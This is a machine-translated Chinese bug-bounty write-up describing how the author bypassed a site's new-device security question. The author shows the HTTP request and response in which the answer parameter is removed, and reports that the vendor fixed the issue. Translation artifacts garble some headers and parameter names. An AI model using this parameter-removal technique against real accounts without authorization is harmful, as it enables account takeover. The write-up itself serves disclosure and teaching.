

# 设备授权旁路！

> 原文：<https://infosecwriteups.com/device-authorization-bypass-aa508c9193ed?source=collection_archive---------4----------------------->

大家好，这是哈桑汗优素福扎伊&我想分享我的一个发现。大约两个月前，我在 BugCrowd 上收到了私人邀请。为了私人节目的隐私，让我们称之为“ *Private.com”。*

因此，当我对应用程序进行笔测试时，我首先注意到了它们的功能。引起我注意的功能是，当我们从可信设备登录时，我们不会提示机密安全问题，但如果我们从不可信设备登录，或者我们可以说从新设备登录，我们会被重定向到 Private.com/的*设备授权*。因此，*我寻找常见的方法来绕过这一点，如速率限制等，但不幸的是，有一个速率限制保护。我测试了一整天的应用程序，但我找不到任何方法来绕过设备认证。事实上，我对自己承诺，我会绕过它；)但这是无法回避的，所以它只是让我厌倦了:/。我离开了那个目标，开始寻找其他网站。*

**

*两天后，我想让我们再给那个 private.com 一次机会。所以，我检查了 POST 请求&突然我想为什么不试着删除参数和它的值呢？。帖子请求是这样的。*

***请求:***

**POST/device-authorization HTTP/1.1
主机:private.com
用户代理:Mozilla/5.0(Windows NT 10.0；WOW64RV:55.0)Gecko/2010 01 01 Firefox/55.0
接受:application/json，text/plain，*/*
接受-语言:en-US，en；q=0.5
接受-编码:gzip，deflate，br
内容-类型:application/JSON；charset = utf-8
X-Requested-With:XMLHttpRequest
Referer:*[*https://www.private.com/device-authorization*](https://www.private.com/device-authorization) *Content-Length:57
Cookie:SNIP
Connection:close**

**{ " device auth[remember]":true，" device auth[answer]":" test " }**

*我接下来做的是我只是从 POST 数据中删除了***" device auth[answer]":" test "*&只发送了带有*{ " device auth[memory]":true }*的 POST 请求***

***我得到的回应是类似的东西***

*****回应:*****

****HTTP/1.1 200 OK
日期:2017 年 9 月 25 日星期一 20:52:59 GMT
内容类型:应用程序/json
内容长度:47
连接:关闭
缓存-控制:无缓存
X-帧-选项:same origin
Set-Cookie:
Set-Cookie:
X-new relic-App-Data:
严格传输包括子域；预加载
X-内容-类型-选项:nosniff****

****{“成功”:真}****

***我被重定向到我的个人资料的/设置，:D，你知道接下来是什么吗？Bounty :P 所以只要移除参数和它的值，我就可以绕过设备授权。***

******

***问题在一天内得到解决&分析师指出:***

> ***很好的发现！***
> 
> ***感谢您向我们报告了此漏洞，并提供了非常详细的报告。
> 我们已经进行了修复，您能否帮忙验证一下问题是否已经解决，我们可以将票据转移到关闭状态。非常感谢！***

*****提示:*****

***不要忘记添加和删除参数来绕过东西。***

***我希望你们学到了一些新东西***

***谢谢你的阅读，***

***关于你，***

***哈桑·汗·优素福扎伊***